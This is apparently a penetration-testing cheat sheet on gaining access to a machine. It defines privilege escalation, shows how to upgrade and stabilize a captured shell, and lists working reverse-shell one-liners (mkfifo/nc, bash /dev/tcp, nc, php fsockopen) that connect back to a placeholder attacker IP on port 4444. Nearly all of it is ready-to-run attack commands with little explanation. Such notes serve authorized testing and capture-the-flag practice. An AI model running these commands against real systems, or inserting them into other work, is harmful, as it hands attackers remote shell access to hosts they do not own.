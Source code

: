 # Exploit (Gaining Access)

## Definitions

**horizontal elevation** = get the privileges of a user in the same circle of use

**vertical elevation** = get the most advanced privileges (root/administrator)

## Reverse Shell

### Shell upgrading

```bash
/usr/bin/script -qc /bin/bash /dev/null # works almost all the time

python3 -c 'import pty;pty.spawn("/bin/bash")' # only if python is installed
```

### Shell Stabilization
```bash
export TERM=xterm # this will give us access to term commands such as clear
Ctrl + Z # background the shell
stty raw -echo; fg # This does two things: 1. it turns off our own terminal echo (which gives us access to tab autocompletion, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
```

### Write multiple lines in a file with `echo`

```bash
echo "line 1
line 2" >> file.txt
```

### BASH reverse shell one line
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip] 4444 >/tmp/f

bash -c "bash -i >& /dev/tcp/[ip]/4444 0>&1" # possibility not to use 'bash -c' at the beginning

nc [IP] [PORT]

php -r '$sock=fsockopen("[IP]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");'
```
